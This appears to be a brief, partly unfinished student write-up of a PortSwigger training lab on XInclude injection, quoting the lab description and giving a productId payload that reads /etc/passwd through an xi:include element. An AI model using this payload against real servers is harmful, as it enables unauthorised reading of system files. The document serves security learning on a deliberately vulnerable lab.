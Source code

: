 

### Lab: [Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)


	Description: This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed. Because you don't control the entire XML document you can't define a DTD to launch a classic [XXE](https://portswigger.net/web-security/xxe) attack. To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.

[XInclude](https://www.w3.org/TR/xinclude/): **xi:include** element can points to an external document

Step 1: I will use Burp Suite to 




Step :

```
productId=<document xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></document>
```
Note: We can use tag [**foo**](http://www.catb.org/jargon/html/F/foo.html) if you don't know which tag to use
![](../../Img_note/Pasted%20image%2020221212102428.png)


